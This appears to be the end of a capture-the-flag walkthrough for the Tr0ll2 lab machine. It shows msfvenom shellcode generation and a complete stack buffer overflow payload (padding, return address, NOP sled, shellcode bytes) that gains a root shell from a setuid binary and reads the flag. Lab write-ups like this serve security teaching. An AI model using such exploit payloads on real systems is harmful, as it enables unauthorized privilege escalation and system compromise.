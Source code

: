 We generate our shellcode in this case msfvenom generates one of 70 bytes.

```bash
root@kali:~$ msfvenom -a x86 --platform linux -p linux/x86/exec cmd=/bin/sh -b "\x00" -f python -o shellcode.txt 
```

We copy the shellcode.

```bash
root@kali:~$ grep -oP '".*"' shellcode.txt | sed 's/"//g' | tr -d '\n' | xclip -sel c
```

We build our malicious instruction as follows, first with 268 A's, then with the return address **0xbffffb80**, then with 10 NOPs (\x90) and finally with the shellcode.

To run our malicious instruction we need to find the vulnerable binary, in this case the one with size 8401, and run it, giving us a root shell, if you notice we change the hex value from 80 to 60, since the address is different outside of gdb.

```bash
noob@Tr0ll2:~$ find /nothing_to_see_here/ -size 8401c -name r00t
/nothing_to_see_here/choose_wisely/door2/r00t

noob@Tr0ll2:~$ $(!!) $(python -c "print('A'*268 + '\x60\xfb\xff\xbf' + '\x90'*10 + '\xba\xf7\x3d\x96\x37\xdb\xd1\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1\x0b\x83\xc3\x04\x31\x53\x11\x03\x53\x11\xe2\x02\x57\x9d\x6f\x75\xfa\xc7\xe7\xa8\x98\x8e\x1f\xda\x71\xe2\xb7\x1a\xe6\x2b\x2a\x73\x98\xba\x49\xd1\x8c\xb5\x8d\xd5\x4c\xe9\xef\xbc\x22\xda\x9c\x56\xbb\x73\x30\x2f\x5a\xb6\x36')")
id
uid=1002(noob) gid=1002(noob) euid=0(root) groups=0(root),1002(noob)
bash -i
bash: no job control in this shell
root@Tr0ll2:/home/noob#
```

We read the flag.

```bash
root@Tr0ll2:/root# cat Proof.txt
cat Proof.txt
You win this time young Jedi...

a70354f0258dcc00292c72aab3c8b1e4
```
